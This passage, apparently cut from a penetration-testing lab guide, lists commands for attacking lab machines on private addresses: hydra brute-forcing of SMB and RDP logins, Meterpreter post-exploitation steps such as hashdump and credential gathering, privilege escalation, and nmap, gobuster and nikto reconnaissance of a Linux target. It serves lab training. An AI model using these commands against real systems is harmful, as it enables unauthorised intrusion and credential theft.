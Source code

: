 ### 4. Password Attacks
```bash
hydra -L users.txt -P passwords.txt smb://192.168.100.20
hydra -L users.txt -P passwords.txt rdp://192.168.100.20
```

### 5. Post-Exploitation
```bash
# Meterpreter commands
sysinfo
getuid
hashdump
run post/windows/gather/credentials
run post/multi/recon/local_exploit_suggester
```

### 6. Privilege Escalation
```bash
# Common Windows PrivEsc vectors
getsystem
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_shares
```

---

# Linux Penetration Testing

## 🏠 Linux Lab Environment Setup

### Virtualization Setup
```bash
# Recommended Network Configuration
Attacker (Kali Linux): 192.168.200.10
Linux Target: 192.168.200.20
Metasploitable: 192.168.200.30
```

## 📋 Linux Methodology

### 1. Reconnaissance & Enumeration
```bash
nmap -sS -sV -sC -O 192.168.200.20
nmap -p- --min-rate 1000 192.168.200.20
nmap --script vuln 192.168.200.20
```

### 2. Service-Specific Enumeration
```bash
# SSH Enumeration
nmap --script ssh2-enum-algos 192.168.200.20

# Web Enumeration
gobuster dir -u http://192.168.200.20 -w /usr/share/wordlists/dirb/common.txt
nikto -h http://192.168.200.20

# FTP Checks
ftp 192.168.200.20  # Try anonymous login
nmap --script ftp-anon 192.168.200.20
```
